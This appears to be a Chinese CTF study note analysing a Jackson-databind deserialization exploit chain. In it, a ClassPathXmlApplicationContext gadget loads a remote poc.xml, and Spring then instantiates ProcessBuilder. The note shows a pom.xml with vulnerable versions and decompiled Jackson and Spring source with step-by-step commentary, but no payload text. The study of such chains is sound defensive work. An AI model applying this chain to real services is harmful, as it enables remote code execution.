

使用的 pom.xml，jdk7u21

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>jacksonCVE</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>7</maven.compiler.source>
        <maven.compiler.target>7</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.25.0-GA</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.7.9</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-core</artifactId>
            <version>2.7.9</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-annotations</artifactId>
            <version>2.7.9</version>
        </dependency>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-io</artifactId>
            <version>1.3.2</version>
        </dependency>
        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.6</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-beans</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-expression</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>
        <dependency>
            <groupId>commons-logging</groupId>
            <artifactId>commons-logging</artifactId>
            <version>1.2</version>
        </dependency>
    </dependencies>

</project>
```

由于我也没学过 Spel 表达式注入，比赛也是照猫画虎，所以现在来理解下流程

```java
protected Object _deserialize(JsonParser p, DeserializationContext ctxt) throws IOException {
    if (p.canReadTypeId()) {
        Object typeId = p.getTypeId();
        if (typeId != null) {
            return this._deserializeWithNativeTypeId(p, ctxt, typeId);
        }
    }

    boolean hadStartArray = p.isExpectedStartArrayToken();
    String typeId = this._locateTypeId(p, ctxt);
    JsonDeserializer<Object> deser = this._findDeserializer(ctxt, typeId);
    if (this._typeIdVisible && !this._usesExternalId() && p.getCurrentToken() == JsonToken.START_OBJECT) {
        TokenBuffer tb = new TokenBuffer((ObjectCodec)null, false);
        tb.writeStartObject();
        tb.writeFieldName(this._typePropertyName);
        tb.writeString(typeId);
        p = JsonParserSequence.createFlattened(tb.asParser(p), p);
        p.nextToken();
    }

    Object value = deser.deserialize(p, ctxt);
    if (hadStartArray && p.nextToken() != JsonToken.END_ARRAY) {
        throw ctxt.wrongTokenException(p, JsonToken.END_ARRAY, "expected closing END_ARRAY after type information and deserialized value");
    } else {
        return value;
    }
}
```

检查原生类型 id，有些数据格式如 Avro 或 Protobuf 自带类型信息，然后确认数组开始，读取数据并定位类名，获取反序列化器，检查类型可见性 (Visible Type ID)，然后进行反序列化。

```java
public Object deserialize(JsonParser p, DeserializationContext ctxt) throws IOException {
    if (p.isExpectedStartObjectToken()) {
        if (this._vanillaProcessing) {
            return this.vanillaDeserialize(p, ctxt, p.nextToken());
        } else {
            p.nextToken();
            return this._objectIdReader != null ? this.deserializeWithObjectId(p, ctxt) : this.deserializeFromObject(p, ctxt);
        }
    } else {
        return this._deserializeOther(p, ctxt, p.getCurrentToken());
    }
}
```

检查 Token 是否为 START_OBJECT，检查 Bean 是否简单，如果简单就使用极速模式解析，由于现在 Token 是字符串，所以如下图



```java
public Object deserializeFromString(JsonParser p, DeserializationContext ctxt) throws IOException {
    if (this._objectIdReader != null) {
        return this.deserializeFromObjectId(p, ctxt);
    } else if (this._delegateDeserializer != null && !this._valueInstantiator.canCreateFromString()) {
        Object bean = this._valueInstantiator.createUsingDelegate(ctxt, this._delegateDeserializer.deserialize(p, ctxt));
        if (this._injectables != null) {
            this.injectValues(ctxt, bean);
        }

        return bean;
    } else {
        return this._valueInstantiator.createFromString(ctxt, p.getText());
    }
}
```

直接跟进 createFromString

```java
public Object createFromString(DeserializationContext ctxt, String value) throws IOException {
    if (this._fromStringCreator == null) {
        return this._createFromStringFallbacks(ctxt, value);
    } else {
        try {
            return this._fromStringCreator.call1(value);
        } catch (Throwable t) {
            throw this.rewrapCtorProblem(ctxt, t);
        }
    }
}
```

检查是否有字符串构造器，然后再进行一个反射调用，



```java
public ClassPathXmlApplicationContext(String configLocation) throws BeansException {
    this(new String[]{configLocation}, true, (ApplicationContext)null);
}

public ClassPathXmlApplicationContext(String[] configLocations, boolean refresh, ApplicationContext parent) throws BeansException {
    super(parent);
    this.setConfigLocations(configLocations);
    if (refresh) {
        this.refresh();
    }

}
```

将字符串封装进数组，立即初始化对象，然后将 URL 封装进 Context 对象字段中，

```java
public void refresh() throws BeansException, IllegalStateException {
    synchronized(this.startupShutdownMonitor) {
        this.prepareRefresh();
        ConfigurableListableBeanFactory beanFactory = this.obtainFreshBeanFactory();
        this.prepareBeanFactory(beanFactory);

        try {
            this.postProcessBeanFactory(beanFactory);
            this.invokeBeanFactoryPostProcessors(beanFactory);
            this.registerBeanPostProcessors(beanFactory);
            this.initMessageSource();
            this.initApplicationEventMulticaster();
            this.onRefresh();
            this.registerListeners();
            this.finishBeanFactoryInitialization(beanFactory);
            this.finishRefresh();
        } catch (BeansException ex) {
            this.logger.warn("Exception encountered during context initialization - cancelling refresh attempt", ex);
            this.destroyBeans();
            this.cancelRefresh(ex);
            throw ex;
        }

    }
}
```

调用`this.obtainFreshBeanFactory()`，这一步会下载并解析 `poc.xml`，将`<bean>`标签解析为 `BeanDefinition`存入内存，但此时不创建对象，不执行 SpEL，跟进 finishBeanFactoryInitialization

```java
protected void finishBeanFactoryInitialization(ConfigurableListableBeanFactory beanFactory) {
    if (beanFactory.containsBean("conversionService") && beanFactory.isTypeMatch("conversionService", ConversionService.class)) {
        beanFactory.setConversionService((ConversionService)beanFactory.getBean("conversionService", ConversionService.class));
    }

    String[] weaverAwareNames = beanFactory.getBeanNamesForType(LoadTimeWeaverAware.class, false, false);

    for(String weaverAwareName : weaverAwareNames) {
        this.getBean(weaverAwareName);
    }

    beanFactory.setTempClassLoader((ClassLoader)null);
    beanFactory.freezeConfiguration();
    beanFactory.preInstantiateSingletons();
}
```

在 Spring 中，XML 里定义的`<bean>`默认都是 Singleton 且 Non-Lazy 的，`beanFactory.preInstantiateSingletons();`会实例化所有剩余的（非懒加载）单例 Bean。

跟进`DefaultListableBeanFactory#preInstantiateSingletons`，它会读取内存中早已解析好的所有 Bean 的名字（`beanDefinitionNames`），复制到一个新的 List 里面，再逐步进行遍历，调用 getBean 进行实例化。





```java
protected <T> T doGetBean(String name, Class<T> requiredType, final Object[] args, boolean typeCheckOnly) throws BeansException {
    final String beanName = this.transformedBeanName(name);
    Object sharedInstance = this.getSingleton(beanName);
    Object bean;
    if (sharedInstance != null && args == null) {
        if (this.logger.isDebugEnabled()) {
            if (this.isSingletonCurrentlyInCreation(beanName)) {
                this.logger.debug("Returning eagerly cached instance of singleton bean '" + beanName + "' that is not fully initialized yet - a consequence of a circular reference");
            } else {
                this.logger.debug("Returning cached instance of singleton bean '" + beanName + "'");
            }
        }

        bean = this.getObjectForBeanInstance(sharedInstance, name, beanName, (RootBeanDefinition)null);
    } else {
        if (this.isPrototypeCurrentlyInCreation(beanName)) {
            throw new BeanCurrentlyInCreationException(beanName);
        }

        BeanFactory parentBeanFactory = this.getParentBeanFactory();
        if (parentBeanFactory != null && !this.containsBeanDefinition(beanName)) {
            String nameToLookup = this.originalBeanName(name);
            if (args != null) {
                return (T)parentBeanFactory.getBean(nameToLookup, args);
            }

            return (T)parentBeanFactory.getBean(nameToLookup, requiredType);
        }

        if (!typeCheckOnly) {
            this.markBeanAsCreated(beanName);
        }

        try {
            final RootBeanDefinition mbd = this.getMergedLocalBeanDefinition(beanName);
            this.checkMergedBeanDefinition(mbd, beanName, args);
            String[] dependsOn = mbd.getDependsOn();
            if (dependsOn != null) {
                for(String dependsOnBean : dependsOn) {
                    if (this.isDependent(beanName, dependsOnBean)) {
                        throw new BeanCreationException(mbd.getResourceDescription(), beanName, "Circular depends-on relationship between '" + beanName + "' and '" + dependsOnBean + "'");
                    }

                    this.registerDependentBean(dependsOnBean, beanName);
                    this.getBean(dependsOnBean);
                }
            }

            if (mbd.isSingleton()) {
                sharedInstance = this.getSingleton(beanName, new ObjectFactory<Object>() {
                    public Object getObject() throws BeansException {
                        try {
                            return AbstractBeanFactory.this.createBean(beanName, mbd, args);
                        } catch (BeansException ex) {
                            AbstractBeanFactory.this.destroySingleton(beanName);
                            throw ex;
                        }
                    }
                });
                bean = this.getObjectForBeanInstance(sharedInstance, name, beanName, mbd);
            } else if (mbd.isPrototype()) {
                Object prototypeInstance = null;

                try {
                    this.beforePrototypeCreation(beanName);
                    prototypeInstance = this.createBean(beanName, mbd, args);
                } finally {
                    this.afterPrototypeCreation(beanName);
                }

                bean = this.getObjectForBeanInstance(prototypeInstance, name, beanName, mbd);
            } else {
                String scopeName = mbd.getScope();
                Scope scope = (Scope)this.scopes.get(scopeName);
                if (scope == null) {
                    throw new IllegalStateException("No Scope registered for scope '" + scopeName + "'");
                }

                try {
                    Object scopedInstance = scope.get(beanName, new ObjectFactory<Object>() {
                        public Object getObject() throws BeansException {
                            AbstractBeanFactory.this.beforePrototypeCreation(beanName);

                            Object var1;
                            try {
                                var1 = AbstractBeanFactory.this.createBean(beanName, mbd, args);
                            } finally {
                                AbstractBeanFactory.this.afterPrototypeCreation(beanName);
                            }

                            return var1;
                        }
                    });
                    bean = this.getObjectForBeanInstance(scopedInstance, name, beanName, mbd);
                } catch (IllegalStateException ex) {
                    throw new BeanCreationException(beanName, "Scope '" + scopeName + "' is not active for the current thread; " + "consider defining a scoped proxy for this bean if you intend to refer to it from a singleton", ex);
                }
            }
        } catch (BeansException ex) {
            this.cleanupAfterBeanCreationFailure(beanName);
            throw ex;
        }
    }

    if (requiredType != null && bean != null && !requiredType.isAssignableFrom(bean.getClass())) {
        try {
            return (T)this.getTypeConverter().convertIfNecessary(bean, requiredType);
        } catch (TypeMismatchException ex) {
            if (this.logger.isDebugEnabled()) {
                this.logger.debug("Failed to convert bean '" + name + "' to required type [" + ClassUtils.getQualifiedName(requiredType) + "]", ex);
            }

            throw new BeanNotOfRequiredTypeException(name, requiredType, bean.getClass());
        }
    } else {
        return (T)bean;
    }
}
```

转换 Bean 名称，确保拿到的是规范名称，然后检查缓存，看看实例中是不是已经有的，检测是否存在 BeanDefinition，如果不存在，就去父工厂找，再者处理依赖关系，递归调用 getBean 先实例化被依赖的 Bean，由于我们是单例 Bean，所以走下图的路线，调用你传入的匿名内部类`objectFactory.getObject()`



跟进`DefaultSingletonBeanRegistry#getSingleton`，保证在多线程环境下，一个单例 Bean 只会被创建一次。如果缓存里没有，它就负责调用回调函数去创建，并把创建好的对象存入缓存。



所以又跳回去了，



这次触发`AbstractAutowireCapableBeanFactory#createBean`，确保 Bean 的 Class 对象`java.lang.ProcessBuilder`已经被 JVM 加载，然后进行拦截器的检查





走了`autowireConstructor`，Spring 会去解析你在 XML 里写的 `<constructor-arg>`，再去寻找`ProcessBuilder`中能接受这个 List 的构造函数













